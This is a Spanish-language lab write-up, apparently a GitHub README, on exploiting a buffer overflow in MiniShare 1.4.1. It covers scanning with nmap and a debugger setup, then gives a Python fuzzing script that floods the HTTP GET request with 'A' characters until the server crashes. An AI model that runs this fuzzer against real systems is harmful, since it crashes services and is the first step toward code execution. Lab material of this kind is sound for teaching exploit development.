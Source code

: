 # BUFFEROVERFLOW-MINISHARE-1.4.1
***
Se procedera a realizar un desdoblamiento de buffer con el software MINISHARE 1.4.1 habrimos una ventana emergente al lado de nuestro tilix para poder trabajar, usamos el siguiente comando, colacando la IP de la maquina vulnerable.
***
``` 
rdesktop " IP 192.168.a.b"  -u user -p paswword
```
****
### Screenshot
![inicio](https://user-images.githubusercontent.com/104048850/180593311-1796279a-4a4f-4ee8-8fae-baa47898a6e4.png)
Procedemos a realizar un escaneo de vulnerabilidades 
``` 
nmap 192.168.72.135 -sV

```
***
Podemos observar los puertos de la maquina vulnerable sin ejecutar el programa 
***
### Screenshot
![nmap](https://user-images.githubusercontent.com/104048850/180593535-955c4085-6369-4afb-b5e7-dd56e463c24f.png)
***
Ahora realizaremos el escaneo ejecutando el programa minishare usando la herramiento immunity debugger
### Screenshot
![image](https://user-images.githubusercontent.com/104048850/180593763-736524cd-0f76-4ce6-9894-0780023678ad.png)

Para ver que comando vamos a usar, utilizaremos burpsuite y un proxy 
### Screenshot
![image](https://user-images.githubusercontent.com/104048850/180593888-219158db-ad4b-454e-a6e5-2aa429d6c417.png)
***
Ahora  ejecutamos el siguinte script  para ver la capacidad del buffer 
#!/usr/bin/python3.8
# This is a Proof of concept about BufferOverflow vulnerability in MiniShare 1.4.1

# Part 1 of proof of concept by Vry4n
# This script is intended to discover the size of the buffer
import socket

FUZZ = ""

# While true increase the variable FUZZ by adding 100 "A" until the program crashes
while True:
    FUZZ += "A" * 100
    print("Fuzzing with {} bytes".format(len(FUZZ)))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect = s.connect(("192.168.a,b", 80))
    # from a web proxy capturing the HTTP GET Request, we got this line "GET / HTTP/1.1" This is the vulnerable section
    s.send(b"GET " + FUZZ.encode() + b"HTTP/1.1\r\n\r\n")
    s.recv(1024)
    s.close()
